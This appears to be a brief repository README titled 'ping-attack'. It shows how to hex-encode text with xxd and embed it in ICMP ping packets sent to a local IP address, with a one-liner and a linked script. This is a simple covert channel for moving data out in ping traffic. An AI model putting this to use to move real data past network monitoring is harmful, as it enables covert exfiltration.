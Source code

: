 # ping-attack

Basic Commands:

#This will take the text "test" and convert to hex:
```echo "test" | xxd -p```

#output:
746573740a

#This will ping the ip address and add the hex of "test" into the data field
```ping -c 1 192.168.1.5 -p 746573740a```


or use the oneline script of:<br>
```ping -c 1 192.168.1.5 -p $(echo -n "test" | xxd -p)```

or use the scripts ping_payload1.sh located at:<br>
https://github.com/yen5004/ping-attack/blob/9aae89150817556d350d8b5587fc3f86cccddde3/ping_payload1.sh<br>
just pass the ip address and text
